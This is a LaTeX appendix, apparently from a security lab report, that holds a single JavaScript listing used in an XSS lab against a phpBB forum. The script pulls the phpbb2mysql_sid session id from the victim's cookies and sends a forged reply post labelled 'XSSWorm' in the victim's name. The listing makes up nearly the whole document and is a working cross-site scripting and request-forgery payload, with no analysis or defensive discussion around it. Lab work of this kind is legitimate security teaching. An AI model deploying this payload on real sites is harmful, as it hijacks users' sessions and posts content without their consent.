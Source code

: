 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
\end{lstlisting}


\section{JavaScript for forging message.\label{app:javasc1}}

\lstset{
  captionpos=b,
  frame=single,
  language=JavaScript,
  breaklines=true,
  caption="JavaScript for forging message.",
  label=parta:script1
}
\begin{lstlisting}
<script>
var Ajax=null;
// Construct the header information for the Http request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Steal cookie
var valueSearched = "phpbb2mysql_sid=";

// Find where mysql sid is 
var indexOfSid = document.cookie.indexOf(valueSearched);

// Move the string behind mysql_sid=
indexOfSid += valueSearched.length;

// Check if there is a semicolon at the end, we only want one parameter from cookie
var semicolonIndex = document.cookie.indexOf(";", indexOfSid);

var stolenCookie = "";

if(semicolonIndex == -1) {
  stolenCookie = document.cookie.slice(indexOfSid);
} else {
  stolenCookie = document.cookie.slice(indexOfSid, semicolonIndex);
}

// Construct the content. The format of the content can be learned
// from LiveHttpHeader. All we need to fill is subject, message, and sid.
var content="subject=XSSWorm"; // You need to fill in the details.

// Add message body
content += "&message=Attack";

// Choose topic number
content += "&t=8";

// Add session id stolen from cookie
content += "&sid=" + stolenCookie; // e.g. 642b0037b1b4f81a4141e8fb505e50f6

// Specify posting mode
content += "&mode=reply";
content += "&post=Submit";
// Send the HTTP POST request.
Ajax.send(content);
</script>
\end{lstlisting}


\end{appendices}
\end{document}
